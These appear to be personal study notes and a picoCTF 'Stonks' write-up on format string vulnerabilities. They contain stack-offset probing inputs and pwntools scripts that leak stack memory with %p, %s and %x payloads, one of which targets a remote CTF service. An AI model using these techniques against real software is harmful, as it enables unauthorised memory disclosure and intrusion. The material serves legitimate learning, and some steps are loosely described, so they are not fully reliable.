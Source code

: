 ## Format String vulnerability

### Resources
> A simple Format String exploit example - bin 0x11 (LiveOverflow)  
> https://www.youtube.com/watch?v=0WvrSfcdq1I  

### Format String
> https://ir0nstone.gitbook.io/notes/types/stack/format-string  
> https://codeforwin.org/2015/05/list-of-all-format-specifiers-in-c-programming.html  

### Indentifying a format string vulnerability

Look for Any printf function that takes your input thats first and only parameter.

Using the %p allows you to enumerate the addresses on the stack.

### Finding the index of the user input of the stack

Using the %p multiple times until you can identify your exact offset of your index.

Example:

```
./vuln

AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

We can see in the below result that index #6 is the offset of where our A's are.

AAAA 0xf63d4e2e 0xfff359a0 0x804918c 0xfff35a34 0xf7f33470 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520
```

Extracting the exact offset for the index selected

```
./vuln

%6$p

Confirming the offset by reading the user input

AAAA %6$p
```

### Writing to the stack

Retrieving the base address

```
readelf --all auth
0x08048000 base address of vuln
```

```python
from pwn import *

p = process("./vuln")
base_addr = p32(0x08048000)

buf = b"" 
buf += b"%7$p" + base_addr

p.sendline(buf)
p.interactive()
```

### Reading the value at the address

```
readelf --all auth
0x08048000 base address of vuln
```

```python
from pwn import *

p = process("./vuln")
base_addr = p32(0x08048000)

buf = b"" 
buf += b"%7$s" + base_addr

p.sendline(buf)
p.interactive()
```


------------------------------------------------

### picoCTF Stonks (Format String Vuln)

Thanks to @iilegacyyii for helping me learn the automation aspect of the exploitation

### format string vulnerability to leak flag data

I confirmed the vulnerability by locating the weakness in the code by entering `%x` into user input to leak addresses from the stack. A particular set of bytes contained the flag.  

`scanf("%300s", user_buf);`

To confirm this, i was able to compile the source code and replicate the flag by creating a file named api and creating a random string named "this is a test".

```bash
# ./x 
Welcome back to the trading app!
                                                          
What would you like to do?
1) Buy some stonks!
2) View my portfolio
1            
Using patented AI algorithms to buy stonks
Stonks chosen    
What is your API token?
%x                
Buying stonks with token:
566737f0
```

```python
from pwn import *
from Crypto.Util.number import long_to_bytes

#p = process("./x")
p = remote("<picoctfdomain>", <port>)
fuzz = "%x"*30

p.sendline("1")
p.recvuntil("?")
p.sendline(fuzz)
print("===========")
p.recvuntil("token:\n")
leakdata = p.recvuntil("\n").strip("\n")
leakdata = int(leakdata, 16)
leakdata = long_to_bytes(leakdata)

# Manually entered payload after retrieving it.
x = 'ocip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10'
result = ""
for i in range(0, len(x), 4):
  result += x[i:i+4][::-1]
print(result)

print("===============")
print(leakdata)

p.interactive()
```

